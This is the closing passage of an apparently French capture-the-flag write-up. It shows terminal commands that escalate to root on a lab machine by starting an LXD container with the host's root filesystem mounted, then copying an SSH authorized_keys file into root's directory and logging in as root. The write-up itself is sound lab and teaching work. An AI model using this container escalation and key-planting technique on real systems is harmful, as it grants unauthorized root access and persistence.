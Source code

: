 ```plain
Device host-root added to ignite
jarves@hackerctflab:~$ lxc start ignite
jarves@hackerctflab:~$ lxc exec ignite /bin/sh
# cd /mnt/root/root
# ls -a
.  ..  .bash_history  .bashrc  .cache  .config  .local  .mysql_history  .profile  .python_history  .selected_editor  .ssh  auto.py  data.zip  service  shell  shell32  snap  wp.sql
# cd .ssh
# cp ../../home/jarves/.ssh/authorized_keys .
```

```plain
$ ssh root@192.168.1.5
Enter passphrase for key '/home/devloop/.ssh/id_rsa': 

root@hackerctflab:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Un CTF un peu chaotique où l'on se demande parfois si son auteur savait ce qu'il faisait...

*Published December 13 2021 at 18:11*
